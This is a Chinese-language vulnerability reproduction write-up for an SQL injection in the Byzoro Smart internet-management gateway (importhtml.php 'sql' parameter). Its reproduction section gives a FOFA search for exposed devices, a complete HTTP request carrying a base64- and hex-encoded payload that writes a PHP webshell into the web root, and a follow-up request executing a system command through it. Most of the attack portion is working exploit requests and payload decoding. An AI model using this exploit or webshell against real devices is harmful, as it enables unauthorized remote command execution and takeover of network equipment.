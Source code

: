 # 百卓Smart SQL命令注入漏洞

# 一、漏洞简介
百卓Smart是一种系列品牌上网行为管理设备，多种应用功能集于一身，包括网络应用封堵、流量控制、链路负载均衡、网页分类阻断、上网内容审计、防火墙、VPN等。该网关的管理组件文件 importhtml.php 的功能处理逻辑，对参数 sql 的传参处过滤不严，导致任意SQL语句的执行，造成任意恶意文件的写入。

# 二、影响版本
+ 百卓Smart

# 三、资产测绘
+ fofa`app="byzoro-Smart"`
+ 特征

![1699974927531-d5f2d49c-f9c3-417f-abc7-7bbcaba6f53d.png](./img/UARv6UDd29RgBiDC/1699974927531-d5f2d49c-f9c3-417f-abc7-7bbcaba6f53d-383312.png)

# 四、漏洞复现
```plain
GET /importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvcy5waHAn HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1699974989232-16965ee9-3c76-45b9-b1a7-a6271b782b62.png](./img/UARv6UDd29RgBiDC/1699974989232-16965ee9-3c76-45b9-b1a7-a6271b782b62-882594.png)

写入文件位置

```plain
POST /app/s.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

cmd=ifconfig
```

![1699975045857-a4180062-f99a-4442-a005-33f9f287cbd1.png](./img/UARv6UDd29RgBiDC/1699975045857-a4180062-f99a-4442-a005-33f9f287cbd1-056909.png)

其中`c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvcy5waHAn`为以下代码的base64编码

```plain
select 0x3c3f706870206563686f2073797374656d28245f504f53545b22636d64225d293b3f3e into outfile '/usr/hddocs/nsg/app/s.php'
```

`0x3c3f706870206563686f2073797374656d28245f504f53545b22636d64225d293b3f3e`为webshell hex编码

hex解密网站`[https://www.bejson.com/convert/ox2str/](https://www.bejson.com/convert/ox2str/)`

![1699975206003-6cf67767-eca7-44c5-bd9f-ff1a092eb766.png](./img/UARv6UDd29RgBiDC/1699975206003-6cf67767-eca7-44c5-bd9f-ff1a092eb766-896376.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gigpdn7864aou7y4>